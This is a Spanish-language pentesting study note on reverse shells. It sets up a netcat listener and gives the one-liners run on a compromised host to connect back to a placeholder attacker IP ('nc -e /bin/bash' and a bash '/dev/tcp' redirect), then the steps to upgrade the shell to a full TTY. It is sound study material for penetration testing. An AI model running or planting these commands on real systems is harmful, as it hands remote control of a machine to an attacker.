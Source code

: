 # Reverse shell

***

* Tags: #bash #shells #exploiting #hacking

***

## Definición

> Es una técnica que permite a un atacante conectarse a una máquina remota desde una máquina de su propiedad, obteniendo una \[\[Shell]]. Es decir, se establece una conexión desde la máquina comprometida hacia la máquina del atacante. Esto se consigue con la posibilidad de ejecución de comandos en la máquina atacante, y de esta manera podemos ejecutar comandos en la máquina remota desde nuestra máquina.

***

## Uso

Para ello es necesario ponernos en escucha a través de algún puerto (usualmente el 443) con \[\[NetCat]]:

```bash
nc -nlvp <puerto>

#Si queremos hacer uso de la herramienta rlwrap (de manera que nos funcione el ctrl-l, ir arriba y demás)
rlwrap nc -nlvp <puerto>
```

Y como podemos ejecutar comandos desde la máquina comprometida, establecemos la conexión con dicho servicio, o bien con \[\[NetCat]] si está instalado, o con uso de bash desde la máquina comprometida:

```bash
nc -e /bin/bash <IP> <puerto>
bash -c "bash -i >& /dev/tcp/<IP>/<puerto> 0>&1"   #En el caso que no se disponga de nc en la máquina comprometida
```

Para establecer este tipo de conexión, se pueden hacer desde diversas herramientas y comandos, los cuales está difícil saberse todos, por lo que haremos uso frecuente mente de chuletillas como [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

## Arreglo de reverse shell

La mayoría de las veces, la **reverse shell** no tendrá funcionalidad completa, como el ctrl+l, para que todo funcione correctamente tenemos que hacer lo siguiente:

Desde la **reverse shell** ejecutar lo siguiente:

```bash
script /dev/null -c bash
```

Mandamos la tarea a segundo plano con ctrl+z, y ejecutamos en **nuestra** terminal el siguiente comando:

```bash
stty raw -echo; fg
```

Sin tocar nada, ejecutamos el siguiente comando seguidamente:

```bash
reset xterm
```

Y ahora habría que ajustar el total de filas y columnas. Desde **nuestra** terminal ejecutamos lo siguiente para ver el número de filas y columnas:

```bash
stty size
```

Y para ajustarlas dentro de la **reverse shell**, ejecutamos el siguiente comando:

```bash
stty rows <nº filas> columns <nº columnas>
```

Y para terminar ejecutamos desde la **reverse shell** lo siguiente:

```bash
export TERM=xterm
export SHELL=bash
```
